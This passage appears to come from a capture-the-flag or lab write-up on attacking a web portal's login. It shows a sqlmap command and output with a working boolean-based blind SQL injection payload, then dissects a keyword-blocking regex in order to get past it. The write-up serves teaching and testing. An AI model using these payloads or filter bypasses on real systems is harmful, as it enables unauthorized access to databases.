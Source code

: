 This error message let us know that there are restrictions on the username field that will limit us from performing SQL injections.

### sqlmap

We were curious to see if `sqlmap` could allow us to grab some information despite the regex limitation so we ran it against the web portal and we got the following results:

```sql
$ sqlmap -r req --level 5 --risk 3 --all
[...]
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 6339=6339 AND 'IvSQ'='IvSQ&passwd=admin
---
[...]
[14:06:04] [WARNING] reflective value(s) found and filtering out
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: Microsoft SQL Server 2022
[...]
[14:06:05] [INFO] fetching server hostname
[14:06:05] [INFO] retrieved: ctn-mbergeron-photographic-memory
hostname: 'ctn-mbergeron-photographic-memory'
[14:06:14] [INFO] testing if current user is DBA
current user is DBA: False
[...]
[14:06:14] [CRITICAL] unable to retrieve the number of database users
```

The tool was able to find some details but nothing regarding the databases, the tables or the stored data.

### Bypass regex

Let's dig inside this regex to understand how to bypass it:

```sql
(alter|create|delete|drop|exec|execute|insert|merge|select|update|union|truncate)([^a-z\]\'%])|--|]]|\/\*|\*\/
```

* The first group of regex is looking for the following key words : `alter|create|delete|drop|exec|execute|insert|merge|select|update|union|truncate`
* The second group of regex is looking for character not present in the list `a-z` - `]` - `'` - `%`
* If the payload contains `--` or `]]` we get blocked
* If the payload contains `*/` or `/*` we are also blocked

Details using [Regex101](https://regex101.com/):
